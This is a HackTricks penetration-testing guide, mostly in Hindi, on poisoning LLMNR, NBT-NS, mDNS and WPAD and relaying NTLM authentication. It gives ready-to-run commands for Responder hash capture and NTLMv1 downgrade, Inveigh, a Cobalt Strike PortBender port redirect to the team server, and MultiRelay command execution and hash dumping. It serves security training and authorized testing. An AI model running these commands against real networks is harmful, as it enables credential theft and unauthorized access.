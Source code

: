 # Spoofing LLMNR, NBT-NS, mDNS/DNS and WPAD and Relay Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Network Protocols

### Local Host Resolution Protocols
- **LLMNR, NBT-NS, and mDNS**:
- Microsoft और अन्य ऑपरेटिंग सिस्टम DNS विफल होने पर स्थानीय नाम समाधान के लिए LLMNR और NBT-NS का उपयोग करते हैं। इसी तरह, Apple और Linux सिस्टम mDNS का उपयोग करते हैं।
- ये प्रोटोकॉल UDP पर उनकी बिना प्रमाणीकरण, प्रसारण प्रकृति के कारण इंटरसेप्शन और स्पूफिंग के प्रति संवेदनशील हैं।
- [Responder](https://github.com/lgandx/Responder) का उपयोग इन प्रोटोकॉल को क्वेरी करने वाले होस्ट को जाली प्रतिक्रियाएँ भेजकर सेवाओं का अनुकरण करने के लिए किया जा सकता है।
- Responder का उपयोग करके सेवा अनुकरण पर अधिक जानकारी [यहाँ](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md) मिल सकती है।

### Web Proxy Auto-Discovery Protocol (WPAD)
- WPAD ब्राउज़रों को स्वचालित रूप से प्रॉक्सी सेटिंग्स खोजने की अनुमति देता है।
- खोज DHCP, DNS के माध्यम से की जाती है, या यदि DNS विफल हो जाता है तो LLMNR और NBT-NS पर वापस जाती है।
- Responder WPAD हमलों को स्वचालित कर सकता है, ग्राहकों को दुर्भावनापूर्ण WPAD सर्वरों की ओर निर्देशित कर सकता है।

### Responder for Protocol Poisoning
- **Responder** एक उपकरण है जिसका उपयोग LLMNR, NBT-NS, और mDNS क्वेरीज़ को ज़हर देने के लिए किया जाता है, जो क्वेरी प्रकारों के आधार पर चयनात्मक रूप से प्रतिक्रिया करता है, मुख्य रूप से SMB सेवाओं को लक्षित करता है।
- यह Kali Linux में पूर्व-स्थापित आता है, जिसे `/etc/responder/Responder.conf` पर कॉन्फ़िगर किया जा सकता है।
- Responder स्क्रीन पर कैप्चर किए गए हैश प्रदर्शित करता है और उन्हें `/usr/share/responder/logs` निर्देशिका में सहेजता है।
- यह IPv4 और IPv6 दोनों का समर्थन करता है।
- Responder का Windows संस्करण [यहाँ](https://github.com/lgandx/Responder-Windows) उपलब्ध है।

#### Running Responder
- डिफ़ॉल्ट सेटिंग्स के साथ Responder चलाने के लिए: `responder -I <Interface>`
- अधिक आक्रामक प्रोबिंग के लिए (संभावित दुष्प्रभावों के साथ): `responder -I <Interface> -P -r -v`
- आसान क्रैकिंग के लिए NTLMv1 चुनौतियों/प्रतिक्रियाओं को कैप्चर करने की तकनीकें: `responder -I <Interface> --lm --disable-ess`
- WPAD अनुकरण को सक्रिय किया जा सकता है: `responder -I <Interface> --wpad`
- NetBIOS अनुरोधों को हमलावर के IP पर हल किया जा सकता है, और एक प्रमाणीकरण प्रॉक्सी स्थापित की जा सकती है: `responder.py -I <interface> -Pv`

### DHCP Poisoning with Responder
- DHCP प्रतिक्रियाओं को स्पूफ करना एक पीड़ित की रूटिंग जानकारी को स्थायी रूप से ज़हर दे सकता है, ARP ज़हर देने के लिए एक अधिक छिपा हुआ विकल्प प्रदान करता है।
- यह लक्षित नेटवर्क की कॉन्फ़िगरेशन के बारे में सटीक ज्ञान की आवश्यकता होती है।
- हमले को चलाना: `./Responder.py -I eth0 -Pdv`
- यह विधि NTLMv1/2 हैश को प्रभावी ढंग से कैप्चर कर सकती है, लेकिन नेटवर्क में व्यवधान से बचने के लिए सावधानीपूर्वक हैंडलिंग की आवश्यकता होती है।

### Capturing Credentials with Responder
- Responder उपरोक्त प्रोटोकॉल का उपयोग करके सेवाओं का अनुकरण करेगा, जब एक उपयोगकर्ता स्पूफ की गई सेवाओं के खिलाफ प्रमाणीकरण करने का प्रयास करता है, तो क्रेडेंशियल्स (आमतौर पर NTLMv2 चुनौती/प्रतिक्रिया) कैप्चर करता है।
- NetNTLMv1 में डाउनग्रेड करने या आसान क्रेडेंशियल क्रैकिंग के लिए ESS को निष्क्रिय करने का प्रयास किया जा सकता है।

यह महत्वपूर्ण है कि इन तकनीकों का उपयोग कानूनी और नैतिक रूप से किया जाए, उचित प्राधिकरण सुनिश्चित करते हुए और व्यवधान या अनधिकृत पहुंच से बचते हुए।

## Inveigh

Inveigh एक उपकरण है जो पेनटेस्टर्स और रेड टीमर्स के लिए डिज़ाइन किया गया है, जो Windows सिस्टम के लिए है। यह Responder के समान कार्यक्षमताएँ प्रदान करता है, स्पूफिंग और मैन-इन-द-मिडल हमले करता है। यह उपकरण एक PowerShell स्क्रिप्ट से C# बाइनरी में विकसित हुआ है, जिसमें [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) और [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) मुख्य संस्करण हैं। विस्तृत पैरामीटर और निर्देश [**wiki**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) में मिल सकते हैं।

Inveigh को PowerShell के माध्यम से संचालित किया जा सकता है:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
या C# बाइनरी के रूप में निष्पादित किया गया:
```bash
Inveigh.exe
```
### NTLM Relay Attack

यह हमला SMB प्रमाणीकरण सत्रों का उपयोग करके एक लक्षित मशीन तक पहुँचने के लिए किया जाता है, यदि सफल हो तो एक सिस्टम शेल प्रदान करता है। प्रमुख पूर्वापेक्षाएँ शामिल हैं:
- प्रमाणीकरण करने वाले उपयोगकर्ता को रिले किए गए होस्ट पर स्थानीय व्यवस्थापक पहुँच होनी चाहिए।
- SMB साइनिंग को अक्षम किया जाना चाहिए।

#### 445 Port Forwarding and Tunneling

उन परिदृश्यों में जहाँ सीधे नेटवर्क परिचय संभव नहीं है, पोर्ट 445 पर ट्रैफ़िक को अग्रेषित और टनल करने की आवश्यकता होती है। [**PortBender**](https://github.com/praetorian-inc/PortBender) जैसे उपकरण पोर्ट 445 ट्रैफ़िक को दूसरे पोर्ट पर पुनर्निर्देशित करने में मदद करते हैं, जो ड्राइवर लोडिंग के लिए स्थानीय व्यवस्थापक पहुँच उपलब्ध होने पर आवश्यक है।

PortBender सेटअप और संचालन Cobalt Strike में:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM रिले हमले के लिए अन्य उपकरण

- **Metasploit**: प्रॉक्सी, स्थानीय और दूरस्थ होस्ट विवरण के साथ सेटअप करें।
- **smbrelayx**: SMB सत्रों को रिले करने और कमांड निष्पादित करने या बैकडोर तैनात करने के लिए एक पायथन स्क्रिप्ट।
- **MultiRelay**: Responder सूट से एक उपकरण जो विशिष्ट उपयोगकर्ताओं या सभी उपयोगकर्ताओं को रिले करने, कमांड निष्पादित करने या हैश डंप करने के लिए है।

प्रत्येक उपकरण को आवश्यकतानुसार SOCKS प्रॉक्सी के माध्यम से संचालित करने के लिए कॉन्फ़िगर किया जा सकता है, जिससे अप्रत्यक्ष नेटवर्क पहुंच के साथ भी हमले सक्षम होते हैं।

### MultiRelay संचालन

MultiRelay _**/usr/share/responder/tools**_ निर्देशिका से निष्पादित किया जाता है, विशिष्ट IPs या उपयोगकर्ताओं को लक्षित करता है।
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
ये उपकरण और तकनीकें विभिन्न नेटवर्क वातावरण में NTLM Relay हमलों को करने के लिए एक व्यापक सेट बनाती हैं।

### NTLM लॉगिन को मजबूर करना

Windows में आप **कुछ विशेषाधिकार प्राप्त खातों को मनमाने मशीनों पर प्रमाणीकरण करने के लिए मजबूर कर सकते हैं**। जानने के लिए निम्नलिखित पृष्ठ पढ़ें:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## संदर्भ
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
